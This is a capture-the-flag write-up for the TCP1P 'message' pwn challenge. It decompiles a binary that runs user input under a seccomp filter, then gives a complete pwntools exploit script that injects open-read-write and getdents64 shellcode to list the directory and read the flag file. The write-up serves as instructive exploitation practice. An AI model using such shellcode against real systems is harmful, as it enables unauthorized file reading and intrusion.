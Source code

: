 ## message

```
Author: gawrgare

What do you want to say to me?

nc ctf.tcp1p.com 8008
```
**Attachment**: [dist.zip](release/chall)

We were given an ELF binary. Here's some information about this binary.
![File Information 1](images/ea4d22be18868a475768cf2fccc93741448d368e73d27032080d2a6e270bd5f5.png)  


Let's take a look what does this program do
<details close><summary>Decompiled Binary</summary>
    
```c
int setup()
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  return setvbuf(stderr, 0LL, 2, 0LL);
}

__int64 seccomp_setup()
{
  __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = seccomp_init(0LL);
  seccomp_rule_add(v1, 2147418112LL, 2LL, 0LL);
  seccomp_rule_add(v1, 2147418112LL, 0LL, 0LL);
  seccomp_rule_add(v1, 2147418112LL, 1LL, 0LL);
  seccomp_rule_add(v1, 2147418112LL, 217LL, 0LL);
  return seccomp_load(v1);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  void *buf; // [rsp+0h] [rbp-10h]
  void *dest; // [rsp+8h] [rbp-8h]

  buf = malloc(0x150uLL);
  dest = mmap(0LL, 0x1000uLL, 7, 34, -1, 0LL);
  setup();
  seccomp_setup();
  if ( dest != (void *)-1LL && buf )
  {
    puts("Anything you want to tell me? ");
    read(0, buf, 0x150uLL);
    memcpy(dest, buf, 0x1000uLL);
    ((void (*)(void))dest)();
    free(buf);
    munmap(dest, 0x1000uLL);
    return 0;
  }
  else
  {
    perror("Allocation failed");
    return 1;
  }
}
```
    
</details>

Based by the decompiled program, first the program will set the buffer of stdin, stdout and stderr to non buffer. Then it will call the `seccomp_setup()` function that apply a seccomp rules. To understand what does the seccomp do, we can use (seccomp-tools)[https://github.com/david942j/seccomp-tools ] to assist us to understand the seccomp rules that being applied. Here's the output of seccomp-tools.
![Seccomp Tools Output](images/64045df7fbbc121cd058becb46de70bfdf4a20b679b0db0dbf3a60ebfac42ea7.png)  

Now it's clear, the seccomp only allow 4 syscalls (read, write, open, getdents64). After applying the seccomp, the program will read the user input and save it into a heap. Then it will copy the user input into a rwx memory area that allocated by mmap. Then it will run the user input at the rwx address.

We can exploit it to read the flag by creating a ORW shellcode to read the file. But, since we don't know the name of the flag file in the server, we need to create a shellcode to read the contents of the directory first, by using the getdents syscall (getdents64 in this case). Here is an example payload to read the files in the current directory using getdents64.

```python
p = b""
p += asm(f"""
    {shellcraft.open(".")}
    {shellcraft.getdents64("rax", "rsp", 0x300)}
    {shellcraft.write(1, "rsp", 0x300)}
    """)
```

![Leaked Flag Filename](images/70060cfa75aa351aaf425d7f8a37bcf2d1a056598538285d9251c82d614e9474.png)  

After that, we just need to read the file `flag-3462d...e90.txt` using the ORW (Open Read Write) shellcode to obtain the flag.

Here's my exploit to solve this challenge.
    
<details open> <summary>exploit.py</summary>

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from os import path
import sys

# ==========================[ Information
DIR = path.dirname(path.abspath(__file__))
EXECUTABLE = "/chall"
TARGET = DIR + EXECUTABLE 
HOST, PORT = "ctf.tcp1p.com", 8008
REMOTE, LOCAL = False, False

# ==========================[ Tools
elf = ELF(TARGET)
elfROP = ROP(elf)

# ==========================[ Configuration
context.update(
    arch=["i386", "amd64", "aarch64"][1],
    endian="little",
    os="linux",
    log_level = ['debug', 'info', 'warn'][2],
    terminal = ['tmux', 'split-window', '-h'],
)

# ==========================[ Exploit

def exploit(io, libc=null):
    if LOCAL==True:
        #raw_input("Fire GDB!")
        if len(sys.argv) > 1 and sys.argv[1] == "d":
            choosen_gdb = [
                "source /home/mydata/tools/gdb/gdb-pwndbg/gdbinit.py",     # 0 - pwndbg
                "source /home/mydata/tools/gdb/gdb-peda/peda.py",          # 1 - peda
                "source /home/mydata/tools/gdb/gdb-gef/.gdbinit-gef.py"    # 2 - gef
                ][0]
            cmd = choosen_gdb + """
            b *main+0xc1
            c
            si
            """
            gdb.attach(io, gdbscript=cmd)
    
    RIP_OFFSET = cyclic_find(0x61)
    p = b""
    # p += asm(f"""
    #     {shellcraft.open(".")}
    #     {shellcraft.getdents64("rax", "rsp", 0x300)}
    #     {shellcraft.write(1, "rsp", 0x300)}
    #     """)
    # # flag-3462d01f8e1bcc0d8318c4ec420dd482a82bd8b650d1e43bfc4671cf9856ee90.txt
    p += asm(f"""
        {shellcraft.open("flag-3462d01f8e1bcc0d8318c4ec420dd482a82bd8b650d1e43bfc4671cf9856ee90.txt")}
        {shellcraft.read("rax", "rsp", 0x300)}
        {shellcraft.write(1, "rsp", 0x300)}
        """)
    
    io.sendafter(b"? \n", p)
    print(io.recv())
    print(io.recv())

    io.interactive()

if __name__ == "__main__":
    io, libc = null, null

    if args.REMOTE:
        REMOTE = True
        io = remote(HOST, PORT)
        # libc = ELF("___")
        
    else:
        LOCAL = True
        io = process(
            [TARGET, ],
            env={
            #     "LD_PRELOAD":DIR+"/___",
            #     "LD_LIBRARY_PATH":DIR+"/___",
            },
        )
        # libc = ELF("___")
    exploit(io, libc)   
``` 
</details>

![PWN3D](images/7afc08cd45e59546657ed068ac363b927481f15dae67374fbf7c1699116bb5bc.png)  

**Flag:** TCP1P{I_pr3fer_to_SAY_ORGW_rather_th4n_OGRW_d0nt_y0u_th1nk_so??}